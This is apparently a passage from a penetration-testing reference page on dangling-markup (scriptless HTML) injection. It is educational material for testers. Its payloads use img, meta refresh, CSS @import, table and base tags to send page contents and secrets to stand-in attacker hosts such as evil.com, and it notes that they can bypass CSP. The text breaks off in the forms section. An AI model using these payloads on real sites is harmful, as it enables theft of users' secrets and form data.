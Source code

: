 # Dangling Markup - HTML scriptless injection


## Resume

This technique can be use to extract information from a user when an **HTML injection is found**. This is very useful if you **don't find any way to exploit a** [[../xss-cross-site-scripting/index.html|**XSS** ]]but you can **inject some HTML tags**.\
It is also useful if some **secret is saved in clear text** in the HTML and you want to **exfiltrate** it from the client, or if you want to mislead some script execution.

Several techniques commented here can be used to bypass some [[../content-security-policy-csp-bypass/index.html) by exfiltrating information in unexpected ways (html tags, CSS, http-meta tags, forms, base...|**Content Security Policy**]].

## Main Applications

### Stealing clear text secrets

If you inject `<img src='http://evil.com/log.cgi?` when the page is loaded the victim will send you all the code between the injected `img` tag and the next quote inside the code. If a secret is somehow located in that chunk, you will steal i t(you can do the same thing using a double quote,take a look which could be more interesting to use).

If the `img` tag is forbidden (due to CSP for example) you can also use `<meta http-equiv="refresh" content="4; URL='http://evil.com/log.cgi?`

```html
<img src='http://attacker.com/log.php?HTML=
<meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text=
<meta http-equiv="refresh" content='0;URL=ftp://evil.com?a=
```
```
Note that **Chrome blocks HTTP URLs** with "<" or "\n" in it, so you could try other protocol schemes like "ftp".

You can also abuse CSS `@import` (will send all the code until it find a ";")

```html
<style>@import//hackvertor.co.uk?     <--- Injected
**steal me!**;
```
```
You could also use **`<table`**:

```html
<table background='//your-collaborator-id.burpcollaborator.net?'
```
```
You could also insert a `<base` tag. All the information will be sent until the quote is closed but it requires some user interaction (the user must click in some link, because the base tag will have changed the domain pointed by the link):

```html
<base target='        <--- Injected
steal me'**test**
```
```
### Stealing forms

```html
<!--
base-href: http://evil.com/
-->

```
```
```